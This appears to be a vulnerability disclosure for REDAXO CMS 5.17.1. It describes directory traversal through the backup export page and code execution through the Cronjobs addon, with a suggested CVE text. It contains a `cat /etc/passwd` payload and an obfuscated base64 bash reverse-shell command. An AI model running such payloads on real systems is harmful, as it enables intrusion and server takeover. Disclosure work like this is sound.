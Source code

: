 # REDAXO Directory Traversal Exploit

## Basic Info

- **Exploit Title:** REDAXO Directory Traversal Exploit
- **Exploit Author:**L7dia
- **Vendor Homepage:** https://redaxo.org/
- **Software Link:** https://github.com/redaxo/redaxo
- **Version:** 5.17.1
- **Tested on:** Ubuntu20.04/PHP8.2
- **Payload:** `<?php system('cat /etc/passwd'); ?>`
- **CVE:** WAIT...

## Description

redaxo cms allows attackers to perform directory traversal and file downloads through the "/index.php?page=backup/export" page. Attackers can modify the name of the backup folder during the backup operation to obtain sensitive directory files.
In the private static function addFolderToTar(rex_backup_tar $tar, $path, $dir) method of the source code https://github.com/redaxo/redaxo/blob/main/redaxo/src/addons/backup/lib/backup.php file, the opendir() method is used to process the incoming directory parameter without any processing, allowing attackers to tamper with the value of the parameter to implement the attack.

## Proof of Concept

1. Log in as an administrator.
2. Navigate to the AddOns-Backup page.
3. Select "Create file backup", select "Download as file".
4. Open burpsuite or other tools, intercepting packets, and change the "EXPDIR" to other path with path traversal. 
5. Forwarding tampered packets, get the compressed file of sensitive directory. 

![image-20240826223611894](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408262236052.png)

![image-20240826224123827](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408262241891.png)

![image-20240826224130059](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408262241105.png)

![image-20240826224146801](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408262241858.png)

# Cronjobs AddOns RCE



![image-20240827112702567](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408271127718.png)

![image-20240827112715931](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408271127055.png)



```
http://127.0.0.1/redaxo/redaxo/index.php?page=cronjob/cronjobs&func=add&list=cronjobs
```

![image-20240827112917694](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408271129798.png)

```
<?php system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx|base64 -d|bash -i')?>
```

![image-20240827112938919](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408271129994.png)

![image-20240827113004575](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202408271130633.png)

Affected component(s)

```
Affected source code file: https://github.com/redaxo/redaxo/blob/main/redaxo/src/addons/cronjob/pages/cronjobs.php
Affected module: Cronjob addon
```



Attack vector(s)

```
1. Log in as an administrator
2. Navigate to the AddOns-Cronjobs page(If not present, can install it by Main menu-AddOns)
3. Create a new cronjob, set "Type" to "PHP-Code", and set "PHP-Code" to evil PHP code, such as remote code execution.
4. (Optional) Set "Environment" to "Backend", can execute cronjobs mannually.
5. Save the cronjob, wait for automatic execution or execute it mannually. And then attackers can get shell or achieve other evil purpose.

Example Evil PHP-Code:
<?php system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx|base64 -d|bash -i')?>
```



Suggested description of the vulnerability for use in the CVE

```
REDAXO CMS allows attackers to execution evil php code in Cronjobs Addon. Attackers can set any php code without verified as cronjob to achieve their evil purpose, even get shell.
```



